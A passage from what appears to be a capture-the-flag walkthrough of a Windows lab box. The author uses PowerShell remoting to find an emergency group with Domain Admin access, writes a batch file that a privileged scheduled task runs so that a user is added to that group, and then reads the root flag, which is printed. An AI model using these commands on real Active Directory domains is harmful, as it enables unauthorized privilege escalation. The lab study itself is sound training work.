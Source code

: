 
It’s description says it’s for emergencies and has access to Domain Admins:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Group name     Site_Admin
    Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group
    
    Members
    
    -------------------------------------------------------------------------------
    The command completed successfully.
    

#### Add awallace

Given that `.bat` scripts are being run by Lois every five minutes, I’ll write
a script to add awallace to `Site_Admin`:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { Set-Content -Path '\program files\keepmeon\0xdf.bat' -Value 'net group site_admin awallace /add /domain'} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credenti
    al $cred
    PS C:\Utils> Invoke-Command -ScriptBlock { cat '\program files\keepmeon\0xdf.bat' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    net group site_admin awallace /add /domain
    

I’ll note there’s no members of `Site_Admin` above (it’s only for
emergencies), but after a few minutes, awallace is added:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Group name     Site_Admin
    Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group
    
    Members
    
    -------------------------------------------------------------------------------
    awallace                 
    The command completed successfully.
    

That’s actually enough to read `root.txt`:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { cat \users\administrator\desktop\root.txt  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    5a14532a55ecc6c7cf9faa6f3f6317b5
    

### Shell
